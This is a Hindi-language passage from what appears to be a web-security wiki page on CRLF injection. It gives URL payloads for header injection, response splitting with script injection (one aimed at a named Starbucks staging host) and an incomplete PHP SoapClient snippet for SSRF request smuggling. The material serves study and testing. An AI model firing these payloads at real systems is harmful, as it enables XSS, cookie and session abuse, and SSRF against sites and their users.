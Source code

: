 #### रीडायरेक्ट करने वाले HTTP प्रतिक्रिया में CRLF इंजेक्शन का उदाहरण

{% embed url="https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62" %}

ब्राउज़र को:
```
/%0d%0aLocation:%20http://myweb.com
```
और सर्वर हेडर के साथ प्रतिक्रिया देता है:
```
Location: http://myweb.com
```
**दूसरा उदाहरण: (स्रोत** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**
```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
#### URL पथ में

आप URL पथ में पेलोड भेज सकते हैं ताकि सर्वर से प्रतिक्रिया को नियंत्रित किया जा सके:
```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```
{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP हेडर इंजेक्शन

#### विवरण

CRLF इंजेक्शन का उपयोग करके एक हमलावर्धक भी HTTP हेडर्स डाल सकता है जिनका उपयोग सुरक्षा तंत्रों को पराजित करने के लिए किया जा सकता है, जैसे ब्राउज़र के XSS फ़िल्टर या समान मूल नीति। इससे हमलावर्धक को CSRF टोकन की तरह संवेदनशील जानकारी प्राप्त करने में सक्षम होता है। वह कुकीज़ भी सेट कर सकता है जिनका उपयोग हमलावर्धक को पीड़ित का खाता में लॉगिन करने या अन्यथा अप्रयोज्य [क्रॉस-साइट स्क्रिप्टिंग (XSS) संकट](https://www.netsparker.com/blog/web-security/cross-site-scripting-xss/) का उपयोग करके उचित कर सकता है।

#### संवेदनशील जानकारी निकालने के लिए HTTP हेडर इंजेक्शन का उदाहरण

यदि एक हमलावर्धक CORS (क्रॉस ऑरिजिन रिसोर्स शेयरिंग) को सक्रिय करने वाले HTTP हेडर्स को इंजेक्ट कर सकता है, तो वह जावास्क्रिप्ट का उपयोग करके संसाधनों तक पहुंच सकता है जो SOP (समान मूल नीति) द्वारा संरक्षित होते हैं, जो अलग-अलग मूलों की साइटों को एक दूसरे तक पहुंचने से रोकती है।

### SSRF में नया HTTP अनुरोध

CRLF इंजेक्शन का दुरुपयोग करके आप एक **नया HTTP अनुरोध बना सकते हैं और इसे इंजेक्ट कर सकते हैं**।\
PHP में `SoapClient` डेसीरियलाइज़ेशन गैजेट का उपयोग करके एक अच्छा उदाहरण दिया जा सकता है। इस कक्षा में `user_agent` पैरामीटर के अंदर CRLF के प्रति विकल्पनीयता होती है जिससे नए हेडर और बॉडी सामग्री को **इंजेक्ट करने में सक्षम होता है**। हालांकि, आप इस संकट का दुरुपयोग करके नए HTTP अनुरोध को **इंजेक्ट करने में सक्षम हो सकते हैं:**
```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
'POST /proxy HTTP/1.1',
'Host: local.host.htb',
'Cookie: PHPSESSID=[PHPSESSID]',
'Content-Type: application/x-www-form-urlencoded',
'Content-Length: '.(string)strlen($post_string),
"\r\n",
```